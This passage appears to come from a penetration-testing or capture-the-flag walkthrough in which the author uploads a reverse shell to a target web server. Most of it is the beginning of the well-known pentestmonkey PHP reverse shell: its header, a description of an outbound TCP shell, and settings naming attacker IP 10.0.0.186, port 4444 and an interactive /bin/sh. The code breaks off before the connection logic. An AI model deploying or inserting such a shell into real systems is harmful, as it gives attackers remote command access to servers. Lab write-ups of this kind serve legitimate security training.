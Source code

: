 Next I want to upload a Reverse Shell!

Reverse Shell

To save time here I will use the good old "**Pentest Monkey Reverse Shell**". I tested several others that worked, but was unable to get a python shell.

Rember to change the IP and port to your machine and whatever port you are listening on

```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.0.0.186';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
```